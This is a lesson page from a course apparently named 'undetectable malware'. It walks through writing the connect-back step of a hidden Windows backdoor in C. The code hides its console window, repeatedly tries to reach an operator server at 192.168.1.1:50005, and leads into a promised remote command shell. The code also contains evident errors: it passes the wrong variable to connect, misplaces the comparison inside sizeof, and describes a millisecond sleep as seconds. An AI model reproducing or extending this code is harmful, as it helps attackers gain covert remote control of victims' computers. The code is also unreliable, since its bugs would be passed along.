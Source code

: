 ```yaml
---
title: Stablishing connection
course: undetectable_malware
section: "Coding our malware"
layout: lesson
---
```


Before we can take a break by working in our main function and start working in
our malware functionalities, we need to stablish the actual connection, let's do
that.

To perform a connection, we can use the "_connect_" function. To use it, simply
invoke it and pass the socket as first argument, for the second argument, pass
the memory location of the server address "_ServAddr_", but we have to also
convert it to "**struct** sockaddr", to do so, simply open brackets before
"_&ServAddr_" and type "```(struct sockaddr *)```" and the third and last
parameter will be the actual size of the "_ServAddr_". That newly created line
would look like this:

```c
connect(sock, (struct sockaddr *) &ServAddr, sizeof(ServAddr));
```

This is not the only thing we are going to code, we want our backdoor to try to
connect to the target every 10 seconds. Why? Well, imagine you delivered the
payload to the target, and they start it before you start the server, it will
try to connect to your server, even before you it is started and waiting for
incoming connections, so it will execute the code only to this part as it will
return an error because the connection was not successful. How do we do it?
Simple. We will execite the connect function every ten seconds until it is
connected to the server. So create a while loop which condition will be the
previously called function plus "!= 0" at the end, so... That portion of the
code will be executed until the returned value of "_connect_" is not equal to
zero, when it is equals to zero, it means the connection was stablished and our
program will continue its execution. In the inside of our while loop, add
"Sleep(10);" which will make our Backdoor not to do anything for the amount of seconds
we entered, in this case, 10. Right below "Sleep(10);" we will add "goto
start;". What is start? Well, actually, we haven't implemented it yet, so let's
go to the before of our while loop and add "start:".

We have defined something called "**start**" right before the while loop, so
let's imagine that line "**start:**" is some kind of a checkpoint, when called
will execute our while loop which checks if a connection is stablished, if it
is, then it will stop that portion of code, so the "**start:**" _checkpoint_
won't be called again and continue with the program execution.

When the connection is stablished (below/after the connect while loop) we will
call the "_Shell_" function and in the next lesson we will code our Shell
function which will receive the commands we send from the server, will execute
them and send the output back to server.

This is how our code looks so far:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <winsock2.h>
#include <windows.h>
#include <winuser.h>
#include <wininet.h>
#include <windowsx.h>
#include <string.h>
#include <sys/stat.h>
#include <sys/types.h>

int sock;

int APIENTRY WinMain(HINSTANCE hInstance, HINSTANCE hPrev, LPSTR lpCmdLine, int nCmdShow) {
  HWND stealth;
  AllocConsole();
  stealth = FindWindowA("ConsoleWindow", NULL);

  ShowWindow(stealth, 0);

  struct sockaddr_in ServAddr;
  unsigned short ServPort;
  char *ServIP;
  WSADATA wsaData;

  ServIP = "192.168.1.1";
  ServPort = 50005;

  if(WSAStartup(MAKEWORD(2,0), &wsaData) != 0) {
    exit(1);
  }

  sock = socket(AF_INET, SOCK_STREAM, 0);

  memset(&ServAddr, 0, sizeof(ServAddr));
  ServAddr.sin_family = AF_INET;
  ServAddr.sin_addr.s_addr = inet_addr(ServIP);
  ServAddr.sin_port = htons(ServPort);

start:
  while (connect(socket, (struct sockaddr *) &ServAddr, sizeof(ServAddr != 0))) {
    Sleep(10);
    goto start;
  }
}
```
